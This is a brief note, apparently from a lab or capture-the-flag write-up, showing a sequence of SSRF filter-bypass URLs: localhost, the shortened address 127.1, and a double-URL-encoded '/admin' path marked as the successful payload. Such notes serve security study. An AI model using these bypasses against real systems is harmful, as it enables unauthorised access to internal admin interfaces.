 #try localhost
http://127.0.0.1

#try alternative ip
http://127.1

#try admin with alternative ip
http://127.1/admin

#success
http://127.1/%2561dmin
